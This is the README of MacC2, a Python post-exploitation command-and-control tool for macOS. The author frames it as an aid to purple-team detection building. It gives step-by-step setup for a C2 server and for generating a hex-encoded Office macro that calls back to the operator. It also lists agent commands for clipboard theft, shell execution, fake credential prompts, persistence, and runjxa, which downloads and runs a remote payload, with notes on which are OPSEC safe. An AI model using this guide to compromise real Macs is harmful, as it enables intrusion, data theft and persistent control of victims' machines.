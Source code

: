 # MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. **I wrote this tool to aid purple team exercises aimed at building detections for python-based post exploitation frameworks on macOS**. Apple plans to eventually remove scripting runtimes from base macOS installs, but it appears that python is still included by default on base installs of Big Sur. 

You can set up the server locally or you can use the docker setup I have included in this repo. Instructions below:

-----
## Instructions for Running Using Docker: ##

***If you do not already have docker set up:***
1. `chmod +x install_docker_linux.sh`
2. `sudo ./install_docker_linux.sh`

***Next:***
1. > *chmod +x setup.sh*
2. > *sudo ./setup.sh* **(this will create an untrusted ssl cert and key, generate a macro file for the server and port you specify (will drop the macro in macro.txt locally), build macc2-docker, and run the MacC2 server inside of macc2-container in interactive mode)**
3. when prompted, enter the IP/hostname of the MacC2 server
![Image](pic30.png)
4. when prompted, enter the port that the MacC2 server will listen on
![Image](pic31.png)
5. A hex encoded macro payload will be dropped locally in a file named macro.txt that is configured to connect to your MacC2 server on the hostname/IP and port you specified.
![Image](pic32.png)
6. Docker will install the aiohttp python3 dependency, build macc2-docker, and will run the MacC2 Server in a container named macc2-container. Once finished the MacC2 server will listen on the specified port:
![Image](pic33.png)
7. You can run *docker ps* and validate that the MacC2 server is running (you will see a container named macc2-container listed there)

You can then either copy the MacC2_client.py file over to the client and execute for a callback or you can import the macro.txt macro into an Office document and "Enable Macros" when opening for a callback on the client. 

------
## Running Locally (Without Using Docker) ##
If you opt to not use docker, you can set up the server locally using the steps below:

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

> pip install aiohttp **(if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library)**: 

> python3 -m pip install --upgrade --force pip

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: > **openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key**

- 2: > **openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem**

**note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately**

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: 

> python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]

-Example:

![Image](pic3.png)

3. Start the generated MacC2_server.py script to listen for a connection:

![Image](pic4.png)


**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: 
> python MacC2_client.py
![Image](pic5.png)

3. On the server, you will see an inbound connection. Example below:

![Image](pic6.png)

----------

***Using MacC2***

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

![Image](pic7.png)

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

**>>> runjxa <url_to_JXA_.js_payload>**

- Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing.
----------

**_Additional Info_**

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- **NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.


----------

**_Macro Limitations_**

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- addresses

- prompt (the prompt is hidden under the python tray icon though...)

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.
